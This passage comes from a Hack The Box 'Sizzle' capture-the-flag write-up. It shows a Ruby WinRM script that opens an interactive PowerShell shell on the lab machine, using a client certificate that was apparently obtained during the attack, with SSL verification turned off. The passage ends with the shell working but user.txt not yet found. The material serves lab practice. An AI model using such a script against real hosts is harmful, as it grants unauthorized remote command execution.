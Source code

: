 ![](/images/hackthebox/sizzle/24.png)
```
#!/usr/bin/ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new( 
  endpoint: 'https://10.10.10.103:5986/wsman',
  transport: :ssl,
  client_cert: '/root/Desktop/HTB/boxes/sizzle/certs/certnew.cer',
  client_key: '/root/Desktop/HTB/boxes/sizzle/certs/request.key',
  :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```
<br> And it worked :
![](/images/hackthebox/sizzle/25.png)
<br> But there was no `user.txt` :